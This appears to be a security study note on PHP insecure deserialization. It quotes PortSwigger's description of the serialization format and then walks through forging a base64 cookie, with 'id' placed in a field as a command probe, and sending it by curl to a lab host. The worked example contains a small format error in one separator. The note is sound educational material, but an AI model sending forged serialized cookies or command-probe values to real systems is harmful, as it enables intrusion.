 <div>
	<img src="./assets/logo_portswigger.png" alt="PortSwigger Logo" width="16" height="auto">
	<span style="color: #ff6633; font-size: 110%;"><strong>PortSwigger</strong></span>
</div>

[Exploiting insecure deserialization vulnerabilities](https://portswigger.net/web-security/deserialization/exploiting)

[**#PHP serialization format**]
PHP uses a mostly human-readable string format, with letters representing the data type and numbers representing the length of each entry. For example, consider a `User` object with the attributes:
`$user->name = "carlos"; $user->isLoggedIn = true;`
When serialized, this object may look something like this:
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`
This can be interpreted as follows:
- `O:4:"User"` - An object with the 4-character class name `"User"`
- `2` - the object has 2 attributes
- `s:4:"name"` - The key of the first attribute is the 4-character string `"name"`
- `s:6:"carlos"` - The value of the first attribute is the 6-character string `"carlos"`
- `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string `"isLoggedIn"`
- `b:1` - The value of the second attribute is the boolean value `true`
The native methods for PHP serialization are `serialize()` and `unserialize()`. If you have source code access, you should start by looking for `unserialize()` anywhere in the code and investigating further.

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./fake_cookie.txt`:
```
O:15:"UserPreferences":2:{s:8:"language";s:2:"id";s:15:"backgroundColor";s:4:"#ddd";} ←
```

`cat ./fake_cookies.txt | base64 -w 0`:
```
TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjI6ImlkIjtzOjE1OiJiYWNrZ3JvdW5kQ29sb3IiO3M6NDoiI2RkZCI7fQo=
```

`curl -s "http://192.168.56.135/preferences.php" -b "preferences=TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjI6ImlkIjtzOjE1OiJiYWNrZ3JvdW5kQ29sb3IiO3M6NDoiI2RkZCI7fQo="`:
```html
[...]

<body>
    <div class="container">
        <header>Welcome to Your Personalized Page!</header>
        <div class="content">
                            <div class="preferences">
                    <p>Your language setting is id.</p>
                    <p>Your background color is #ddd.</p>
                </div>
                    </div>
    </div>
</body>
</html>

```